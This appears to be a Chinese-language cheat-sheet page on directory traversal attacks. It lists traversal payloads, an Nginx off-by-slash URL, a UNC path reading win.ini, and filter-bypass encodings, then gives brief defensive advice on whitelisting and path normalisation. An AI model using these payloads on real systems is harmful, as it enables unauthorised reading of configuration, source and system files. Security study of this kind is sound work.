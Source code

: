 ## 概要

目录穿越（也被称为目录遍历directory traversalpath traversal）是通过使用 等目录控制序列或者文件的绝对路径来访问存储在文件系统上的任意文件和目录，特别是应用程序源代码、配置文件、重要的系统文件等。

## 攻击载荷

### URL参数

-   ../
-   ..\
-   ..;/

### Nginx Off by Slash

-   https://vuln.site.com/files../

### UNC Bypass

```
-   \\localhost\c$\windows\win.ini
```

## 过滤绕过

-   单次替换

```
...//
```

-   URL编码
-   16位Unicode编码

```
\u002e
```

-   超长UTF-8编码

```
\%e0%40%ae
```

## 防御编辑

在进行文件操作相关的API前，应该对用户输入做过滤。较强的规则下可以使用白名单，仅允许纯字母或数字字符等。 若规则允许的字符较多，最好使用当前操作系统路径规范化函数规范化路径后，进行过滤，最后再进行相关调用。